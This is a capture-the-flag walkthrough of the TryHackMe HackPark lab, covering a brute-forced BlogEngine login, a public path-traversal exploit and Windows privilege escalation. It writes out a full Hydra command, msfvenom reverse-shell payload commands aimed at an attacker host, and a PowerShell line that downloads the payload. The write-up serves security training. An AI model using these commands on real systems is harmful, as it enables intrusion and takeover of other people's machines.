

# HackPark

**Date**: 01/04/2022

**Difficulty**: Medium

**CTF**: [https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)

---

Hacking Windows with Hydra, RCE & WinPEAS

This room will cover brute-forcing an accounts credentials, handling public exploits, using the Metasploit framework and privilege escalation on Windows.

# Deploy the vulnerable Windows machine

## What’s the name of the clown displayed on the homepage?



There is an image of the clown of the IT movie. It’s name is ————.

# Using Hydra to brute-force a login

Hydra is a parallelized, fast and flexible login cracker. 

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a **GET** request which is used to request data from a webserver and a **POST** request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found [here](https://www.w3schools.com/tags/ref_httpmethods.asp)).

## What request type is the Windows website login form using?

By clicking to the button located in the top-right corner of the website a menu appears:


And clicking on LOG IN redirects us to this form:


Looking at the source code we can see that the request type of this login form is POST

Now we know the **request type** and have a **URL** for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

`hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form`

## Guess a username, choose a password wordlist and gain credentials to a user account!

Navigating through the webpage, we can see that the only post published was made by “Administrator”. 


And if you click on the ADMINISTRATOR text, it redirects you to /author/Admin, so I guess that Admin is the username we are looking for.

Also, the source code of the page says that the blog is run using BlogEngine:


So, I searched what is the default user of blogengine and it appears that is admin. 


The search results also says that the default password is admin, but I have tested it and didn’t work. 

I’ll be using fasttrack wordlist first, and if it doesn’t work I’ll use rockyou wordlist.

First thing I’ll do is gather all the info we need to execute the hydra command. I’ll try to log in with random credentials and I’ll intercept the request using Burp Suite:


In the intercepted request we can see that the request is sent to `/Account/login.aspx?ReturnURL=%2fadmin%2f`

The info sent in this request is:

```jsx
__VIEWSTATE=gIM3gB3youIJgamYDSq9I8KcJ65qkTcGNG4xcUV66GCbWTe8qxBf5vazzsVkYF46UequbLwxMPB%2FnJ250OVbaWslvJVxsUgX%2FekcVU66%2BSNQLM9g2YcBDaz%2BwIFVq8MbJeAlNAlVuVBb1ENbouQ%2BCUEUXdaAqER9UJSIfeTrsVti5NnFU%2FOkeI7Le6opTMtQVLgJ51cTY%2F8d2dHOUT5TWh7lftIpTvCG4YoxkI9abb7w1UUXMjgRd3mYIOUNQDAeR3solEMZn%2B5wSBYd%2FWNkQPfJUj9T5UNz3b1zGXCXi8HxiQx%2BzADp3s6bNvz7asMk8Y0MN1cIUBVqR8wkg3k%2Bn6EyHyR34gH1aiJfUNqdJ3vuGlrt&__EVENTVALIDATION=ZV5wkfSbQ%2FJN6v0RuQGDdvbxdRQHFrlNqpv0YgcsGLcQq22scoM7bk62pimul0s5oWnrfNnH6CIgqIakaJHZLsijL7D8mrB4atQ5YwZIRBshvtBSvWryF3NIyxCFVGYBZVHq4ofIQhijtUj3gN2cD0xIxW1yOiAdbjo5zVPz%2B7%2BY3gc2&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=erwr&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

Where the name of the username field is `ctl00%24MainContent%24LoginUser%24UserName`

And the name of the password field is `ctl00%24MainContent%24LoginUser%24Password`


And forwarding the request, we can see that a login error message appears with the text `Login failed`

Now, with the gathered data we can build the hydra command:

```jsx
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 10.10.243.37 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=gIM3gB3youIJgamYDSq9I8KcJ65qkTcGNG4xcUV66GCbWTe8qxBf5vazzsVkYF46UequbLwxMPB%2FnJ250OVbaWslvJVxsUgX%2FekcVU66%2BSNQLM9g2YcBDaz%2BwIFVq8MbJeAlNAlVuVBb1ENbouQ%2BCUEUXdaAqER9UJSIfeTrsVti5NnFU%2FOkeI7Le6opTMtQVLgJ51cTY%2F8d2dHOUT5TWh7lftIpTvCG4YoxkI9abb7w1UUXMjgRd3mYIOUNQDAeR3solEMZn%2B5wSBYd%2FWNkQPfJUj9T5UNz3b1zGXCXi8HxiQx%2BzADp3s6bNvz7asMk8Y0MN1cIUBVqR8wkg3k%2Bn6EyHyR34gH1aiJfUNqdJ3vuGlrt&__EVENTVALIDATION=ZV5wkfSbQ%2FJN6v0RuQGDdvbxdRQHFrlNqpv0YgcsGLcQq22scoM7bk62pimul0s5oWnrfNnH6CIgqIakaJHZLsijL7D8mrB4atQ5YwZIRBshvtBSvWryF3NIyxCFVGYBZVHq4ofIQhijtUj3gN2cD0xIxW1yOiAdbjo5zVPz%2B7%2BY3gc2&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```


Horay! We found a valid password for the admin user, let’s log in:


We’re in!

# Compromise the machine

n this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com/)) to get initial access on this Windows machine!

Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

## Now you have logged into the website, are you able to identify the version of the BlogEngine?

On the left menu there is a About button:


The version of BlogEngine is 3.3.6.0. Anyways we have seen that version before in a comment of the webpage source code!

## Use the [exploit database archive](http://www.exploit-db.com/) to find an exploit to gain a reverse shell on this system. What is the CVE?

Let’s search “blogengine”, if there is many result we’ll do a more specific search:


There are a few exploits, this one seems the correct one to gain a reverse shell:


## Using the public exploit, gain initial access to the server. Who is the webserver running as?

First of all we have to download the exploit (or use it using msfconsole I guess) and configure it. This time I’ll do it without using metasploit:

```jsx
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */
```

To configure it, let’s follow the steps ahead and change the default IP address of the code:


After that we have to save it as PostView.ascx.

Now, let’s upload this file to the server:


Now let’s open a netcat listener in our machine:


And finally, let’s trigger the vulnerability by accessing the url: `http://10.10.243.37/?theme=../../App_Data/files`


Yeah! Let’s see who am I logged as:


# Windows Privilege Escalation

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom.

*Tip:* *You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!*

So, first of all let’s generate the payload using msfvenom as the tip says. To do it we will need to know the target SO architecture (32 or 64 bits). We can check it by sending the following command through the netcat reverse shell we already have:

`echo %PROCESSOR_ARCHITECTURE%`


As we can see, the response indicates that the architecture is 64b. With this info, let’s generate the payload in our machine.

```jsx
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.10 LPORT=1234
```


Now is time to send the payload to the target machine:

The default directory at login is  c:/windows/system32/inetsrv.


Probably, we won’t have write permissions inside system32 folder, so let’s find another location where we can save the payload:


C:/Windows/Temp seems like a good place to save the payload.

With this powershell command, we can download files: `Invoke-WebRequest <FILE PATH> -OutFile <FILENAME>`

So, first of all, let’s start a http server in our machine:


Now, we are ready to download it using the powershell script, but we have a simple bash, not a powershell, but we can execute it by using:

`powershell -command " #PasteCodeHere "`

So, the final command is:

`powershell -command "Invoke-WebRequest 10.10.10.10:8000/shell.exe -OutFile shell.exe"`


We can see that the download takes place.

Next step is open msfconsole and use multi/handler module to capture the meterpreter shell. We have to configure it with the same values we used in the payload:


And finally we have to execute the payload in the target machine:


Mmm... it failed. Yep, I forgot to set the payload as it was an staged payload:


Now we got it!

<aside>
💡 You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) script and quickly identify any obvious vulnerabilities.

</aside>

## What is the OS version of this windows machine?


# Further enumerate the machine. What is the name of the abnormal *service* running?

To further enumerate the machine, the easiest option is to use WinPeas enumeration script. To do so, we have to donwload it and send it to the target machine:


And now, let’s execute the winPEAS binary:


At services section those are running:


The last one seems to be exploitable by DLL Hijacking.

## What is the name of the binary you're supposed to exploit?

WindowsScheduler is like cronjobs but for windows. Let’s see if there is anything useful in the logs. To do so, let’s navigate to the Events Scheduler folder:


And let’s look if there is anything we can use in the log:


In this log we can see that every minute, the Message.exe process start and 30 seconds later it ends. We can see also that is being executed as Administrator. If we can substitute the Message.exe binary with our own binary, we could do privesc.

## Using this abnormal service, escalate your privileges! What is the user flag (on Jeffs Desktop)?

We can create a binary using msfvenom to start a reverse shell with administrator privileges, for example:

`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o rootshell.exe LHOST=10.10.10.10 LPORT=4567` 


Let’s rename the original binary and download the one we created:


Let’s open a netcat listener on the same port we used to configure the payload:


And wait for a connection...


Connected!


And as Administrator! Let’s look for the files we need:


## What is the root flag?

